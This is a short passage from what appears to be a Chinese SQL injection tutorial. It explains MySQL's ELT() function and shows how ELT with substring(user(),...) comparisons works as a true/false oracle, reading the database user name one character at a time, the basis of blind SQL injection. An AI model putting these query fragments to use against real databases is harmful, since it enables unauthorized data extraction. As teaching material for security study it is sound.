## 0x06 ELT

### 0x06.1 例子

```plain
ELT(N,str1,str2,str3,...)
如果N = 1,则返回str1
如果N = 2,则返回str2,依此类推
如果N小于1或大于参数个数,则返回NULL
ELT是FIELD的补充
// 基础教学

// 为true时
mysql> select ELT('a'='a', 1);
+-----------------+
| ELT('a'='a', 1) |
+-----------------+
| 1               |
+-----------------+
1 row in set


// 为false时
mysql> select ELT('a'='b', 1);
+-----------------+
| ELT('a'='b', 1) |
+-----------------+
| NULL            |
+-----------------+
1 row in set
# user()数据

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set
# 注注入 user() 第二位的数据

# 为true时
mysql> select ELT(substring(user(),2,1)='o', 1);
+-----------------------------------+
| ELT(substring(user(),2,1)='o', 1) |
+-----------------------------------+
| 1                                 |
+-----------------------------------+
1 row in set

# 为false时
mysql> select ELT(substring(user(),2,1)='a', 1);
+-----------------------------------+
| ELT(substring(user(),2,1)='a', 1) |
+-----------------------------------+
| NULL                              |
+-----------------------------------+
1 row in set
```
